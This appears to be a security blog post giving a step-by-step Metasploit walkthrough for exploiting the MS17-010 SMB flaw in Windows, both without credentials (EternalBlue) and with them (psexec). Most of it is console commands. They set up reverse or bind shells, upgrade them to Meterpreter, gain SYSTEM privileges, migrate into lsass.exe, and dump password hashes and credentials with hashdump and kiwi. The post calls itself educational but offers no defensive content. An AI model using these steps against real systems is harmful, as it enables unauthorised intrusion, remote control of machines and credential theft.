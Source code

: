```yaml
---
layout: post
title: 'Remote Exploit MS17-010'
date: '2021-03-27'
description: 'This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only.'
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux metasploit ms17-010 windows
published: true
posttype: article
categories: article
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```